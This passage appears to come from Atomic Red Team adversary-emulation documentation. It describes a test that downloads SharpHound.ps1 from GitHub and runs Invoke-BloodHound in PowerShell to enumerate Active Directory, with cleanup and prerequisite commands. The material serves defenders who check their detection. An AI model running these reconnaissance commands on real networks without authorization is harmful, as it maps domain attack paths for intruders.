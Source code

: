 




<br/>
<br/>

## Atomic Test #2 - Run BloodHound from local disk
Upon execution SharpHound will be downloaded to disk, imported and executed. It will set up collection methods, run and then compress and store the data to the temp directory on the machine. If system is unable to contact a domain, proper execution will not occur.

Successful execution will produce stdout message stating "SharpHound Enumeration Completed". Upon completion, final output will be a *BloodHound.zip file.

**Supported Platforms:** Windows


**auto_generated_guid:** a21bb23e-e677-4ee7-af90-6931b57b6350





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_path | File path for SharpHound payload | string | PathToAtomicsFolder&#92;T1059.001&#92;src|


#### Attack Commands: Run with `powershell`! 


```powershell
write-host "Import and Execution of SharpHound.ps1 from #{file_path}" -ForegroundColor Cyan
import-module #{file_path}\SharpHound.ps1
Invoke-BloodHound -OutputDirectory $env:Temp
Start-Sleep 5
```

#### Cleanup Commands:
```powershell
Remove-Item $env:Temp\*BloodHound.zip -Force
```



#### Dependencies:  Run with `powershell`!
##### Description: SharpHound.ps1 must be located at #{file_path}
##### Check Prereq Commands:
```powershell
if (Test-Path #{file_path}\SharpHound.ps1) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1" -OutFile "#{file_path}\SharpHound.ps1"
```
